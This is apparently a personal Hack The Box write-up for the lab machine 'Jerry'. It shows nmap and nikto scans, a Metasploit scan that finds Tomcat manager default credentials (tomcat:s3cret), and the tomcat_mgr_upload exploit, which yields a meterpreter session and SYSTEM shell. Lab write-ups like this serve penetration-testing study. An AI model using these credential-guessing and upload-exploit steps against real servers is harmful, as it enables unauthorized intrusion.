 # Jerry 10.10.10.95 - Windows

 - __User__: 005 - 1st Attempt
 - __Root__: 005 - 1st Attempt

## Initial Attempt, 05/05/2020


```shell
Nmap scan report for 10.10.10.95
Host is up (0.031s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

 - Browser to 8080 shows default Apache Tomcat page, 7.0.88
 - Nmap says http not https
 - `http://10.10.10.95:8080/docs/RELEASE-NOTES.txt` has a list of potential search strings

A metasploit scanner landed on some weak credentials for the default install:

```shell
msf5 auxiliary(scanner/http/tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
.
snip
.
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
.
snip
.
[-] 10.10.10.95:8080 - LOGIN FAILED: both:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)
```

Manger web panel provided info:

 - JVM `1.8.0_171-b11`
 - Windows Server 2012 R2 6.3
 - amd64
 - There appears to be a `/host-manager/html` as well as the `/manager/html` we accessed... our creds don't work there.

Retrying credential scan on new url `/host-manager/html`, says that tomcat/s3cret still works but we get 403's.

![alt text](./tomcatmanager.png "Manager Panel")


Ran a nikto scan:

```shell
^Cthoth@kali:~/Projects/htb-notes/machines/Jerry$ nikto -host 10.10.10.95 -port 8080
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
+ Start Time:         2020-05-05 17:16:30 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7967 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2020-05-05 17:21:12 (GMT-4) (282 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
Ran an exploit using the default credentials:

```shell
msf5 exploit(multi/http/tomcat_mgr_upload) > options

Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  s3cret           no        The password for the specified username
   HttpUsername  tomcat           no        The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.10.10.95      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         8080             yes       The target port (TCP)

meterpreter > getuid
Server username: JERRY$
meterpreter > sysinfo
Computer    : JERRY
OS          : Windows Server 2012 R2 6.3 (amd64)
Meterpreter : java/windows
```

Got userspace. I'm not sure why, but dropping into `shell` (due to having some problems with meterpreter accessing certain directories...) gave me this:

```powershell
C:\Users>whoami
whoami
nt authority\system
```

From there I was able to find `2 for the price of 1.txt`